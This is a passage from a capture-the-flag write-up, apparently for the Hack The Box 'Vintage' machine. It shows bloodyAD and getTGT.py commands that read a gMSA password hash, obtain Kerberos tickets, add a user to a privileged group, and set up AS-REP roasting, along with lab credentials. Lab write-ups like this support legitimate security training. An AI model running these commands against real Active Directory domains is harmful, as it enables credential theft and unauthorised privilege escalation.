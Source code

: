Using the **bloodyAD** with `FS01$` ticket, to query the domain for the `msDS-ManagedPassword` attribute of the `GMSA01$` account. This attribute stores the encrypted password for the GMSA

```bash
bloodyAD --host dc01.vintage.htb --domain "vintage.htb" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword
```

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*NCzZ1yngUzn_t_LV3RwIiA.png)


The attack is successful, and we extract the hash of the `GMSA01$` account.

With the hash of the `GMSA01$` account, we can obtain a TGT for the account and export it.

```bash
getTGT.py vintage.htb/'GMSA01$' -hashes aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*OJjmV0aB_wjuauPUlkycpw.png)

#### GenericWrite over a Group 

Returning to BloodHound after obtaining a TGT for `GMSA01$`, we identified that:

1. **`GMSA01$`** has `GenericWrite` access over the SERVICEMANAGERS group.
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*O4uolcRRwXotG5fdm8CSqw.png)
2. The **`SERVICEMANAGERS`** group holds `GenericAll` permissions over three service accounts
    ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*4Cg9XoyDlB067yj2NhpMnA.png)

To exploit this chain, we can add our controlled user, `P.Rosa`, to the **SERVICEMANAGERS**. This provides `P.Rosa` with `GenericAll` permissions over the three `SVC` accounts.

Using bloodyAD to add P.Rosa to the group
```bash
bloodyAD  --host dc01.vintage.htb --domain vintage.htb --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
```
To confirm the addition, we query the members of the group
```bash
bloodyAD --host dc01.vintage.htb -d vintage.htb --dc-ip 10.10.11.45 -k get object "SERVICEMANAGERS" | grep 'P.Rosa'
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*RyEYbG2SiwZ2kBSwT27yXQ.png)
Once `P.Rosa` is added to the group, we have to request a new TGT for P.Rosa to reflect the updated permissions
```bash
getTGT.py vintage.htb/'P.Rosa':'Rosaisbest123'
export KRB5CCNAME=P.Rosa.ccache
```

#### **`GenericAll`** over Service account  

With the **GenericAll** permissions over the `SVC` accounts, we can:

1. Directly change the account passwords to gain control of their accounts.
2. Add the `DONT_REQ_PREAUTH` attribute to enable AS-REP Roasting, allowing us to retrieve their hashes for offline cracking and identify their plaintext passwords for password spraying across the domain.
